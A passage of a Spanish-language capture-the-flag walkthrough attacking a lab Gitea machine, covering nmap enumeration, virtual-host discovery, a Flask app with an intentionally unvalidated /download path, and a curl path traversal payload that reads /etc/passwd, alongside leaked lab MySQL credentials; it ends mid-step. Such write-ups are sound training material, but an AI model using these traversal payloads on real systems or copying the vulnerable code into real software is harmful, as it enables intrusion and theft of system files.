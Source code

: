 ## FASE DE ENUMERACIÓN

Lanzamos un scaner con nmap para ver que puertos tiene abiertos la máquina victima y los servicios que cooren por ellos:
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios  
```
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e5:9a:b5:5e:a7:fc:3b:2f:7e:62:dd:51:61:f5:aa:2e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJlX8HUpWECJWj9EBrcZdu7DR/IKU6sQIn2Rx8jrDxZGYYrXV7Su2UZ/wR8Y0Do26H/h0wW9p3hm6mGn5F5ZUOw=
|   256 8e:ff:03:d7:9b:72:10:c9:72:03:4d:b8:bb:77:e9:b2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHGFlZunFEFvg/diGF3I2AwlkL8QHCxO4Wjzp2KMNDJm
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Gitea: Git with a cup of tea
| http-methods: 
|_  Supported Methods: HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 8C971BC353008D67BA53965E12AE5A43
3000/tcp open  http    syn-ack ttl 64 Golang net/http server
|_http-title: Gitea: Git with a cup of tea
|_http-favicon: Unknown favicon MD5: F6E1A9128148EEAD9EFF823C540EF471
| http-methods: 
|_  Supported Methods: HEAD GET
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=d20d49b100a58736; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=uVFlDSwgUs5nVrqUzk7_t7o3mZE6MTc0MTE5MTcyMDYwMTA4ODM0NQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 05 Mar 2025 16:22:00 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" data-theme="gitea-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2FkbWluLnMzY3IzdGRpci5kZXYuZ2l0ZWEuZGwvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9hZG1pbi5zM2NyM3RkaXIuZGV2LmdpdGVhLmRsL2Fzc2V0cy9pbWcvbG9nby5wbm

```
Tenemos un puerto 22 con SSH en versión no vulnerable, sin user ni pass lo dejamos de momento
Tenemos 2 servicos http, uno corre por el puerto 80 y otro por el 3000

abrimos en el navegador http://172.17.0.2 y buscamos algo en su código fuente y no encontramos nada.
abrimos en el navegado el http://172.17.0.2:3000 y buscamos en el código fuente, y encontramos esto:
```
</noscript>
	
	<meta property="og:title" content="Gitea: Git with a cup of tea">
	<meta property="og:type" content="website">
	<meta property="og:image" content="/assets/img/logo.png">
	<meta property="og:url" content="http://admin.s3cr3tdir.dev.gitea.dl/">
	<meta property="og:description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go">
```

vemos que se utiliza virtual hosting y nos da una direccion http://admin.s3cr3tdir.dev.gitea.dl/, abrimos el /etc/hosts y añadimos 
el subdominio y aprovechamos y metemos retroactivamente el resto quedando así:

```bash
172.17.0.2      admin.s3cr3tdir.dev.gitea.dl gitea.dl dev.gitea.dl s3cr3tdir.dev.gitea.dl
```
en el navegador nos vamos al subdominio mencionado y vemos una plantilla gitea, si añadimos en el buscado "/explore/users" podremos listar los usuarios:
```bash
http://admin.s3cr3tdir.dev.gitea.dl/explore/users
```
vemos dos users que apuntamos como posibles usuarios para el SSH:
-designer
-admin

El repositorio de admin está vacio, así que nos centramos en el del usuario designer, vamos a:
```
http://admin.s3cr3tdir.dev.gitea.dl/designer
```
vermos tres repositorios y nos centramos en el de "myapp"
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/myapp/
```
vemos una app y antes de analizar vamos a mirar los commint:
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/myapp/commits/branch/main
```
y vemos dos historicos, en este concretamente:
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/myapp/commit/14a31ecee9376588ead735a51d9934db7983f2d3
```
vemos esto:
```
@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get("filename")  # Se obtiene de la URL
    filename = request.args.get("filename")

    if not filename:
        flash("Se requiere un nombre de archivo", "danger")
        return redirect(url_for("index"))

    # **Vulnerabilidad**: No se valida el path, permitiendo Path Traversal
    file_path = os.path.join(app.config["UPLOAD_FOLDER"], filename)

    if os.path.exists(file_path):

```
parece ser que es vulnerable a path traversal, vamos a analizar un poco el código de la app:
```
from flask import Flask, request, render_template, send_file, redirect, url_for, flash
import os

app = Flask(__name__)
app.secret_key = "supersecretkey"

UPLOAD_FOLDER = "uploads"
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

app.config["UPLOAD_FOLDER"] = UPLOAD_FOLDER


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        if "file" not in request.files:
            flash("No se ha seleccionado ningún archivo", "danger")
            return redirect(request.url)

        file = request.files["file"]

        if file.filename == "":
            flash("No se ha seleccionado ningún archivo", "danger")
            return redirect(request.url)

        file_path = os.path.join(app.config["UPLOAD_FOLDER"], file.filename)
        file.save(file_path)
        flash(f'Archivo "{file.filename}" subido correctamente.', "success")

    files = os.listdir(UPLOAD_FOLDER)
    return render_template("index.html", files=files)


@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get("filename")

    if not filename:
        flash("Se requiere un nombre de archivo", "danger")
        return redirect(url_for("index"))

    file_path = os.path.join(app.config["UPLOAD_FOLDER"], filename)

    if os.path.exists(file_path):
        return send_file(file_path, as_attachment=True)

    flash("Archivo no encontrado", "danger")
    return redirect(url_for("index"))


if __name__ == "__main__":
    app.run(debug=True)
```
podemos ver una ruta llamada "/download" y un argumento "file" que probablemente nos ayude al pathtraversal, vamos a probarlo:
ponemos en el buscador:
```bash
http://gitea.dl/download?filename=../../../../../etc/passwd
```
y nos descarga un archivo dónde efectivamente está el /etc/passwd, pruebo con curl ya que no quiero mil archivos en mi máquina:
```bash
curl "http://gitea.dl/download?filename=../../../../../etc/passwd"
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
designer:x:1001:1001::/home/designer:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:103:MariaDB Server,,,:/nonexistent:/bin/false
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
```
Después de trastear y no encontrar nada relevante me acuerdo de que había más proyectos e indago nuevamente en ellos,
uno que nos "puede" dar unas credenciales de mysql:
```
 <MYSQL_ROOT_PASSWORD>root123</MYSQL_ROOT_PASSWORD>
        <MYSQL_DATABASE>gitea</MYSQL_DATABASE>
        <MYSQL_USER>designer</MYSQL_USER>
        <MYSQL_PASSWORD>designer123</MYSQL_PASSWORD>
```
y otro que nos da unas rutas de gitea:
```
<volume>/home/designer/gitea:/data</volume>
            <volume>/home/designer/gitea:/data/info.txt</volume>
            <volume>/opt/"INFO_FILE"</volume>
        </volumes>
        <environment>
            <variable name="GITEA__database__DB_TYPE">sqlite3</variable>
            <variable name="GITEA__database__PATH">/data/gitea.db</variable>
```

En esta parte concretamente nos vamos a centrar, vemos "<volume>/home/designer/gitea:/data/info.txt</volume>" pues vamos a hacer una peticion curl con ep pathtraversal:
```bash
